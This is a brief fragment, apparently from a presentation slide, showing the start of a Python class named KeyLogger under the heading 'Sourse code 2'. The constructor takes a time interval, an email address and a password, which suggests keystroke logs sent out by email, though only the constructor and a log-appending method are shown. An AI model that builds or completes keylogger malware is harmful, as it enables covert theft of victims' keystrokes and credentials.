

# Sourse code 2:
 class KeyLogger:
        def __init__(self, time_interval, email, password):
            self.interval = time_interval
            self.log = "KeyLogger Started..."
            self.email = email
            self.password = password

        def appendlog(self, string):
            self.log = self.log + string